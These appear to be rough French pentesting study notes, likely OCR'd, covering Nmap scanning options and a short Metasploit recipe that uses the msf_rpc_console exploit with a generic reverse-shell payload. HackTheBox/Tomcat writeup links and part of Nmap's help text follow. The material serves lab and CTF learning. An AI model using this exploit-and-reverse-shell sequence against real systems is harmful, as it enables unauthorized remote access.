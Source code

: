 s’en prendre à ce serveur. C’est l’option `-sV`.
En ajoutant cette option aux deux précédentes Nmap retournera la version du logiciel qui écoute sur un port donné.

udo nmap -sT -sU 10.10.40.85     ?



## QUelques vulnérabilités possibles :

rlogin

> 8080/tcp open  http-proxy

On peut se connecter avec le navigateur dessus(http-proxy)

MS-RPC

Exemple 

use exploit/multi/misc/msf_rpc_console

SET rhosts 

show payloads

generic/shell_reverse_tcp

se target 1

```
use exploit/multi/misc/msf_rpc_console
set RHOST <ip cible>
show playloads
set payload generic/shell_reverse_tcp
set target 1
```

cmd/windows/powershell_bind_tcp



List de payloads contre Windows

Tomcat website :

https://arkanoidctf.medium.com/hackthebox-writeup-jerry-aa2b992917a7

https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote

SPÉCIFICATIONS DES CIBLES:
Les cibles peuvent être spécifiées par des noms d'hôtes, des adresses IP, des adresses de réseaux, etc.
Exemple: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0-255.0-255.1-254
-iL <inputfilename>: Lit la liste des hôtes/réseaux cibles à partir du fichier
-iR <num hosts>: Choisit les cibles au hasard
--exclude <host1[,host2][,host3],...>: Exclut des hôtes/réseaux du scan 
--excludefile <exclude_file>: Exclut des hôtes/réseaux des cibles à partir du fichier

DÉCOUVERTE DES HÔTES:
-sL: List Scan - Liste simplement les cibles à scanner
-sP: Ping Scan - Ne fait que déterminer si les hôtes sont en ligne -P0: Considère que tous les hôtes sont en ligne -- évite la découverte des hôtes
-PN: Considérer tous les hôtes comme étant connectés -- saute l'étape de découverte des hôtes
-PS/PA/PU [portlist]: Découverte TCP SYN/ACK ou UDP des ports en paramètre
-PE/PP/PM: Découverte de type requête ICMP echo, timestamp ou netmask 
-PO [num de protocole]: Ping IP (par type)
-n/-R: Ne jamais résoudre les noms DNS/Toujours résoudre [résout les cibles actives par défaut]
--dns-servers <serv1[,serv2],...>: Spécifier des serveurs DNS particuliers
